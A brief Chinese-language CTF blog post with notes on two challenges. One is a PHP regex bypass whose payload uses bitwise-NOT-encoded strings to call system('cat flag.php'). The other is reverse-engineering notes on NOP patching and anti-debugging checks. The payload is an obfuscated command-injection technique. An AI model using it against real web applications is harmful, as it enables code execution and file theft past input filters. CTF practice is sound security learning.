

最近继续入门CTF，发现都忘了。。。。    
然后发现好浪费时间，工作的活都还没干完。。。

## 0x01 第五空间智能安全CTF  

1. 一道php match的正则绕过  
```
php -r "var_dump(urlencode(~'_GET'));"
(~%8C%86%8C%8B%9A%92)(~(%9C%9E%8B%DF%99%93%9E%98%D1%8F%97%8F))
```

2. nop:差点成为pwn的逆向题目  

  
现在想想，函数0x804a038执行[eax]=0x90，根据CFG来看，要想跳到0x8048767的话，只能把0x8048765的jmp删除  
而eax和输入有关，经过几个计算得到的  
程序有几个反调试，ptrace，env，还有一个pid啥的对比，没有明白  

